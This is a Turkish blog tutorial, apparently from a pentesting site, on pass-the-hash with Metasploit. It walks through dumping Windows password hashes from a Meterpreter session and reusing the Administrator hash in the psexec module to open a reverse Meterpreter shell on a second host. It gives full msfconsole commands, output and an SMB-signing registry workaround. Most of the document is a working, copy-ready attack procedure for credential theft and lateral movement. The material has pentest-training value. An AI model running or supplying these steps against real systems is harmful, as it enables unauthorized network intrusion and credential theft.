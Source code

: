 ```yaml
---
draft: false

title:  'MSF PSEexec Pass the Hash'
date: '2017-05-25T13:17:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'psexec modülü, genellikle pentest işlemleri esnasında kullanılır. Bu modül sayesine hedef sisteme giriş yapmanız mümkün hale gelmektedir. Alışılmış kullanımda, sistemin kullanıcı adı ve parolasını elde ettiğiniz ve bunu exploit modülüne değişken olarak girmeniz yeterlidir.' 
 
url:  /tr/msf-pseexec-pass-the-hash/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



psexec modülü, genellikle pentest işlemleri esnasında kullanılır. Bu modül sayesine hedef sisteme giriş yapmanız mümkün hale gelmektedir. Alışılmış kullanımda, sistemin kullanıcı adı ve parolasını elde ettiğiniz ve bunu exploit modülüne değişken olarak girmeniz yeterlidir.



Normalde izlenen yol, sistemde meterpreter shell açıldığında `fgdump`, `pwdump` veya `cachedump` komutlarıyla parola elde etmektir. Bu aramalar esnasında bulduğunuz `hash` değerleri olursa, bunları çeşitli araçlar kullanarak çözmeye ve parolaların açık halini elde etmeye çalışırız.



Oysa bazen başka bir durumla karşı karşı kalabilirsiniz. Bir sistemde `Administrator` yetkili bir oturum açtınız ve kullanıcının `hash` olarak formatlı parolasını elde ettiniz. Bu oturum açtığınız sistem üzerinden aynı ağda bulunan başka bir sisteme bağlanmak istediğinizde, `Administrator` kullanıcısının parolasını çözmenize gerek olmayabilir. Genellikle ağdaki cihazlar bu `hash` değerleri kulanarak haberleşirler. psexec modülü, bulduğunuz `hash` değerini parola olarak kullanmanıza olanak sağlar.



UYARI-1:


<!-- wp:quote -->
<blockquote class="wp-block-quote">
NTLM kullanan sistemde, bulacağınız `hash` değeri `******NOPASSWORD*******:8846f7eaee8fb117ad06bdd830b7586c` formatındaysa, baş taraftaki `******NOPASSWORD*******` kısmını 32 adet sıfır ile değiştirerek `psexec` içine değişken olarak girmeniz gerekir. Yani değer, `00000000000000000000000000000000:8846f7eaee8fb117ad06bdd830b7586c` şeklinde olmalıdır.
</blockquote>
<!-- /wp:quote -->


UYARI-2:


<!-- wp:quote -->
<blockquote class="wp-block-quote">
Lab ortamında, doğru hash değeri girdiğiniz halde `STATUS_ACCESS_DENIED (Command=117 WordCount=0)` hatası alıyorsanız, hedef Windows sisteminin Registry ayarlarında `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters` içerisinde `RequireSecuritySignature` değerini `0` olarak ayarlamalısınız.
</blockquote>
<!-- /wp:quote -->


## Hashdump



Aşağıda, bir exploit kullanılarak Meterpreter oturumu açılmıştır ve `post/windows/gather/hashdump` modülü ile sistemde hash değerleri bulunmak istenmektedir.


```bash
**[*********]** Meterpreter session 1 opened **(**192.168.57.133:443 -&gt; 192.168.57.131:1042**)**

meterpreter **&gt;** run post/windows/gather/hashdump 

**[*********]** Obtaining the boot key...
**[*********]** Calculating the hboot key using SYSKEY 8528c78df7ff55040196a9b670f114b6...
**[*********]** Obtaining the user list and keys...
**[*********]** Decrypting user keys...
**[*********]** Dumping password hashes...

Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
meterpreter **&gt;**```



Görüldüğü gibi, `RHOST: 192.168.57.131` IP adresinde bulunan Administrator kullanıcısına ait `e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c` değeri elde edilmiştir.



Şimdi bu hash değerini kullanarak `RHOST: 192.168.57.140` IP adresine oturum açmayı deneyelim. Tabii ki önceden yaptığınız taramada aynı ağda `192.168.57.140` IP adresinde ve `445` portunda `SMB` servisinin çalıştığını keşfettiğinizi kabul ediyoruz.



## psexec



Önce `msfconsole` ile Metasploit Framework başlatalım ve `psexec` modülünü yükleyelim.


```bash
root@kali:~# msfconsole

                ##                          ###           ##    ##
 ##  ##  #### ###### ####  #####   #####    ##    ####        ######
####### ##  ##  ##  ##         ## ##  ##    ##   ##  ##   ###   ##
####### ######  ##  #####   ####  ##  ##    ##   ##  ##   ##    ##
## # ##     ##  ##  ##  ## ##      #####    ##   ##  ##   ##    ##
##   ##  #### ###   #####   #####     ##   ####   ####   #### ###
                                      ##


       **=[** metasploit v4.2.0-dev **[**core:4.2 api:1.0]
+ -- --**=[** 787 exploits - 425 auxiliary - 128 post
+ -- --**=[** 238 payloads - 27 encoders - 8 nops
       **=[** svn r14551 updated yesterday **(**2012.01.14**)**

msf **&gt;** search psexec

Exploits
**========**

   Name                       Description
   ----                       -----------
   windows/smb/psexec         Microsoft Windows Authenticated User Code Execution
   windows/smb/smb_relay      Microsoft Windows SMB Relay Code Execution

msf **&gt;** use exploit/windows/smb/psexec
msf exploit**(**psexec**)** **&gt;** set payload windows/meterpreter/reverse_tcp
payload **=&gt;** windows/meterpreter/reverse_tcp
msf exploit**(**psexec**)** **&gt;** set LHOST 192.168.57.133
LHOST **=&gt;** 192.168.57.133
msf exploit**(**psexec**)** **&gt;** set LPORT 443
LPORT **=&gt;** 443
msf exploit**(**psexec**)** **&gt;** set RHOST 192.168.57.140
RHOST **=&gt;** 192.168.57.140
msf exploit**(**psexec**)** **&gt;** show options

Module options:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.57.140   yes       The target address
   RPORT    445              yes       Set the SMB service port
   SMBPass                   no        The password **for **the specified username
   SMBUser  Administrator    yes       The username to authenticate as


Payload options **(**windows/meterpreter/reverse_tcp**)**:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process
   LHOST     192.168.57.133   yes       The local address
   LPORT     443              yes       The local port


Exploit target:

   Id  Name
   --  ----
   0   Automatic```



## SMBPass



Yukarıda görüldüğü gibi `exploit/windows/smb/psexec` modülünde `SMBPass` değişkenini girmemiz gerekmektedir. `SMBPass` değişkenine elimizde bulunan hash değerini girelim ve modülü `exploit` komutuyla çalıştıralım.


```bash
msf exploit**(**psexec**)** **&gt;** set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
SMBPass **=&gt;** e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
msf exploit**(**psexec**)** **&gt;** exploit

**[*********]** Connecting to the server...
**[*********]** Started reverse handler
**[*********]** Authenticating as user 'Administrator'...
**[*********]** Uploading payload...
**[*********]** Created \KoVCxCjx.exe...
**[*********]** Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.57.140[\svcctl] ...
**[*********]** Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.57.140[\svcctl] ...
**[*********]** Obtaining a service manager handle...
**[*********]** Creating a new service **(**XKqtKinn - "MSSeYtOQydnRPWl"**)**...
**[*********]** Closing service handle...
**[*********]** Opening service...
**[*********]** Starting the service...
**[*********]** Removing the service...
**[*********]** Closing service handle...
**[*********]** Deleting \KoVCxCjx.exe...
**[*********]** Sending stage **(**719360 bytes**)**
**[*********]** Meterpreter session 1 opened **(**192.168.57.133:443 -&gt; 192.168.57.140:445**)**

meterpreter **&gt;** shell
Process 3680 created.
Channel 1 created.
Microsoft Windows **[**Version 5.2.3790]
**(**C**)** Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32&gt;
```



Gördüğünüz gibi `192.168.57.140` IP adresinde oturum açılmıştır.
